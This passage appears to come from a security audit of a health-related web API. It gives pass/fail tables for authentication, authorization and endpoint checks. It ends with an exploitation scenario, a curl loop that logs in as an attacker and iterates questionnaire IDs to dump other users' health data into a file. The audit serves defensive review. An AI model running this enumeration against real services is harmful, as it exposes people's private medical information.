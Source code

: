 
## Security Test Results

### Authentication Tests

| Test | Result | Details |
|------|--------|---------|
| Invalid token rejection | ✅ PASS | Returns 401 Unauthorized |
| Token expiration | ✅ PASS | Tokens expire correctly |
| Unauthenticated access | 🔴 FAIL | `/api/metrics` accessible without auth |
| Concurrent sessions | ⚠️ UNKNOWN | Need testing |

### Authorization Tests

| Test | Result | Details |
|------|--------|---------|
| Admin role verification | 🔴 FAIL | Inconsistent between middleware |
| Cross-user data access | 🔴 FAIL | Health questionnaires not protected |
| Privilege escalation | 🔴 FAIL | Multiple bypass opportunities |
| Tenant isolation | 🔴 FAIL | No company-level data separation |

### API Security Tests

| Endpoint | Auth Required | Authorization Check | Result |
|----------|---------------|-------------------|--------|
| `/api/metrics` | ❌ NO | ❌ NO | 🔴 CRITICAL |
| `/api/auth/user` | ✅ YES | ✅ Token | ✅ SECURE |
| `/api/health-questionnaires/{id}` | ✅ YES | ❌ NO ownership | 🔴 HIGH RISK |
| `/api/gamification/stats` | ✅ YES | ❌ NO tenant filtering | ⚠️ MEDIUM RISK |

---

## Exploitation Scenarios

### Scenario 1: Health Data Theft 🔴 CRITICAL

```bash
# Attacker registers as legitimate user
curl -X POST /api/auth/register -d '{...}'

# Gets authentication token
TOKEN=$(curl -X POST /api/auth/login -d '{"login":"attacker@evil.com","password":"pass"}' | jq -r '.token')

# Iterates through health questionnaire IDs
for id in {1..1000}; do
    curl -H "Authorization: Bearer $TOKEN" \
         /api/health-questionnaires/$id/progress >> stolen_health_data.json
done
```

